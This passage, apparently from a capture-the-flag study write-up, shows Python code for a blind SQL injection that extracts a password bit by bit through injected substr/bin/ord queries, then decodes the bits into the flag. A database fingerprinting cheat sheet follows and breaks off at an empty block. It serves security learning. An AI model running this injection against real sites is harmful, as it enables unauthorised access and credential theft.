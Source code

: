 ```py
                bit_length_db.append(bit_length)
                break;
            bit_length+=1
```
#### step 3. extract bits of each password character  
```py
bits_db=[]
for i in range(1, 14):
    bits=''
    for j in range(1, bit_length_db[i-1]+1):
        query = f"admin' and substr(bin(ord(substr(upw, {i}, 1))),{j},1) = '1"
        resp = requests.get(f"{host}?uid={query}")
        if 'exist' in resp.text:
            bits+='1'
        else:
            bits+='0'
    bits_db.append(bits)
print(bits_db)
```
#### step 4. convert bits to letter  
> To convert bits to letter  
> step 4-1. convert bits to int  
> step 4-2. convert int to Big Endian formed string  
> step 4-3. encoding
```py
flag = ''
for i in range(13):
    flag += int.to_bytes(int(bits_db[i],2), length=bit_length_db[i]+7 // 8, byteorder='big').decode()
print(flag)
```
`int.to_bytes(length:int, byteorder:str, signed:bool)` convert int to bytes

I didn't think about `step 2` fully, and `step 3` and `step 4` were hard to me to code.  
But the concept of step 2 is important I think. I try without this concept. Thanks to it, I was confused with what bytes the character has.  
So I used for-loop so that the bytes is fixed at one in python exploit code. In fact, ascii only take 1-byte while korean take 3-bytes in utf-8.  
To solve it, use while-loop like `step 1` to take non-fixed length bits by ascending count var(like `bit_length+=1`).  
<br />

## Fingerprinting
#### System schema : if sqli allowed, take info by taking system schema.  
#### Get system table :
```sql
mysql> show databases;
mssql> select name from sys.databases;
postgres=$ select datname from pg_database;
oracle> select DISTINCT owner from all_tables
oracle> select owner, table_name from all_datables
sqlite> select * from sqlite_master;
```
#### Schema info :
```sql
mysql> select TABLE_SCHEMA from information_schema.tables group by TABLE_SCHEMA;
mssql> SELECT name FROM master..sysdatabases;
postgres=$ select nspname from pg_catalog.pg_namespace;
```
#### Table info:
```sql
```